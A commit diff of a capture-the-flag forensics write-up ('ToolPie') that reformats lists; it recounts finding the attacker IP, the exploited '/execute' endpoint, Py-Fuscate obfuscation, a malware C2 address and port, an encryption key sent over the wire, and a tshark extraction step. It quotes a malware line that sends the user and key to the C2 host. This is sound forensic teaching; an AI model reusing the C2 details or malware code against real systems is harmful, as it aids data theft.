

Before and after one commit to thewhitecircle/ctf_writeups, a Markdown page: cyber_apocalypse_2025/forensics/ToolPie.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
layout fixed

````diff
--- a/cyber_apocalypse_2025/forensics/ToolPie.md
+++ b/cyber_apocalypse_2025/forensics/ToolPie.md
@@ -22,12 +22,12 @@ last_update: 2025-03-29T00:00:00+00:00
 - We were given a PCAP in this challenge
 
 
-1. What is the IP address responsible for compromising the website?
-    1. based on POST requests in the PCAP : `194.59.6.66`
-2. What is the name of the endpoint exploited by the attacker?
-    1. based on POST requests : `/execute`
-3. What is the name of the obfuscation tool used by the attacker?
-    1. simply printing the script found above shows a code object which contains a string : `Py-Fuscate`
+- What is the IP address responsible for compromising the website?
+    - based on POST requests in the PCAP : `194.59.6.66`
+- What is the name of the endpoint exploited by the attacker?
+    - based on POST requests : `/execute`
+- What is the name of the obfuscation tool used by the attacker?
+    - simply printing the script found above shows a code object which contains a string : `Py-Fuscate`
 
 ```
     # replaced exec() with print()
@@ -35,10 +35,10 @@ last_update: 2025-03-29T00:00:00+00:00
     <code object <module> at 0x555555605650, file "Py-Fuscate", line 1>
 ```
 
-4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
-    1. To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
-    2. However none of the tools worked due to python version mismatch, so I found `pylingual`
-    3. in the code we can see the ip and port : `13.61.7.218:55155`
+- What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
+    - To find this first we need to get the plain text code, what we have is a `python code object`, we can create `pyc` file which is bytecode and get plaintext from it using tools like `uncompyle6`, `decompyle3` or `pycdc`
+    - However none of the tools worked due to python version mismatch, so I found `pylingual`
+    - in the code we can see the ip and port : `13.61.7.218:55155`
 
 ```
     # Decompiled with PyLingual (https://pylingual.io)
@@ -140,15 +140,15 @@ last_update: 2025-03-29T00:00:00+00:00
     time.sleep(50)
 ```
 
-5. What encryption key did the attacker use to secure the data?
-    1. in the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
-    2. we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`
+- What encryption key did the attacker use to secure the data?
+    - in the code we can see where the key is sent : `client.send(f'{user}{SEPARATOR}{k}'.encode())`
+    - we can look for this pattern in the PCAP : `ec2amaz-bktvi3e\administrator\n5UUfizsRsP7oOCAq` so the key is : `5UUfizsRsP7oOCAq`
 
 
-6. What is the MD5 hash of the file exfiltrated by the attacker?
-    1. since we have the key, we can write our own decryption script
-    2. first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
-    3. now we can write a script to parse data chunks and decrypt the stolen files
+- What is the MD5 hash of the file exfiltrated by the attacker?
+    - since we have the key, we can write our own decryption script
+    - first we need to extract data chunks from the PCAP using `tshark -2 -r capture.pcap -R "tcp.stream eq 4 and data.data" -T fields -e data.data > datafile.txt`
+    - now we can write a script to parse data chunks and decrypt the stolen files
 
 ```
     from Crypto.Cipher import AES
````
Also changed, not shown: cyber_apocalypse_2025/forensics/StealthInvasion.md (+6 -6 lines), cyber_apocalypse_2025/ml/EnchantedWeights.md (+3 -3 lines).
